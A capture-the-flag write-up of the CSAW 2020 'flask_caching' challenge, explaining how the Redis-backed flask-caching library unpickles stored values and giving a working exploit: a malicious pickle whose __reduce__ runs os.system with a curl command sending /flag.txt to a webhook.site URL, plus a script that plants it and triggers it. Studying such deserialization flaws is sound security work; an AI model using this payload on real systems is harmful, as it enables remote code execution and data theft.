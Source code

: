 ```yaml
---
title: "CSAW2020 - flask_caching"
date: 2020-09-17T00:00:00Z
draft: false
---
```


# CSAW Qualifiers 2020 - flask_caching

We were presented with a simple Flask server,
we can see the code bellow (see the [full code](app.py)).

```python
#!/usr/bin/env python3

from flask import Flask
from flask import request, redirect
from flask_caching import Cache
from redis import Redis
import jinja2
import os

app = Flask(__name__)
app.config['CACHE_REDIS_HOST'] = 'localhost'
app.config['DEBUG'] = False

cache = Cache(app, config={'CACHE_TYPE': 'redis'})
redis = Redis('localhost')
jinja_env = jinja2.Environment(autoescape=['html', 'xml'])


@app.route('/', methods=['GET', 'POST'])
def notes_post():
    if request.method == 'GET':
        return '''
        <h4>Post a note</h4>
        <form method=POST enctype=multipart/form-data>
        <input name=title placeholder=title>
        <input type=file name=content placeholder=content>
        <input type=submit>
        </form>
        '''

    print(request.form, flush=True)
    print(request.files, flush=True)
    title = request.form.get('title', default=None)
    content = request.files.get('content', default=None)

    if title is None or content is None:
        return 'Missing fields', 400

    content = content.stream.read()

    if len(title) > 100 or len(content) > 256:
        return 'Too long', 400

    redis.setex(name=title, value=content, time=10)  # Note will only live for max 30 seconds

    return 'Thanks!'


# This caching stuff is cool! Lets make a bunch of cached functions.

@cache.cached(timeout=10)
def _test0():
    return 'test'
@app.route('/test0')
def test0():
    _test0()
    return 'test'

if __name__ == "__main__":
    app.run('0.0.0.0', 5000)
```

Analyzing the code, top to bottom we see that the server uses Redis as a cache, no big deal with that.
However, the way it is being used is weird.

Whenever a new note is being posted,
the "raw" operation is used,
however when using the test endpoints the calls are wrapped with the `@cache.cached` decorator.

Furthermore, the test endpoints always return `'test'` so even if we store something there we will not have direct feedback.

Following the decorator rabbit hole to the [`rediscache.py`](https://github.com/sh4nks/flask-caching/blob/9bd8365aa5bac9fb91e9e7ddc663ff087a97ab7a/flask_caching/backends/rediscache.py#L112-L115) we find the following:

```python
def get(self, key):
    return self.load_object(
        self._read_clients.get(self._get_prefix() + key)
    )
```

And following the `load_object`:

```python
def load_object(self, value):
    """The reversal of :meth:`dump_object`.  This might be called with
    None.
    """
    if value is None:
        return None
    if value.startswith(b"!"):
        try:
            return pickle.loads(value[1:])
        except pickle.PickleError:
            return None
    try:
        return int(value)
    except ValueError:
        # before 0.8 we did not have serialization.  Still support that.
        return value
```

Seeing `pickle.loads` means we have a winner.

According to the [documentation](https://docs.python.org/3/library/pickle.html):

> Warning
>
> The pickle module is not secure. Only unpickle data you trust.
>
> It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

Triggering the deserialization is easy,
just start the content with `!` and the cache will take care of the rest for use.

Now we just need to create a payload and find the cache key.

First, the cache key as it is the easiest part.

- Run `app.py` with a Redis instance (increase the cache timer if necessary).
- Send a GET request to one of the test endpoints.
- Use `redis-cli` to retrieve all stored keys with `redis-cli keys "*"`.
- You now know the key is `flask_cache_view//testN` where `N` is the test endpoint number.

We now move on to the pickle.

With a quick search we find that this is called pickle shellcode,
the idea is to serialize a pickle with executes code on deserialization.

I found [this GitHub gist](https://gist.github.com/0xBADCA7/f4c700fcbb5fb8785c14) which shows a "framework" to write "bad" pickles.

From there we write our exploit class:

```python
class Exploit():
    def __reduce__(self):
        return (os.system, ('curl https://webhook.site/<id>?flag=`cat /flag.txt`', ))
```

This works because `pickle` allows objects to decide how to be pickled using the `__reduce__` method,
hence we return a tuple of a `callable` and its arguments.

Using `os.system` we can launch an arbitrary process,
I used `curl` to send a request to `webhook.site` with the flag as a query parameter.

Now we just [automate](exploit.py) the whole process,
serializing the Exploit object to bytes,
send the bytes as a file and request the test endpoint.

```python
url = "http://web.chal.csaw.io:5000/"

class Exploit():
    def __reduce__(self):
        return (os.system, ('curl https://webhook.site/127d80d9-c737-44fe-95b3-c053849634a5?flag=`cat /flag.txt`', ))

bad_pickle = b"!" + pickle.dumps(Exploit())
requests.post(url,
    data={"title":"flask_cache_view//test0"},
    files={"content":bad_pickle})
requests.get(url + "/test0")
```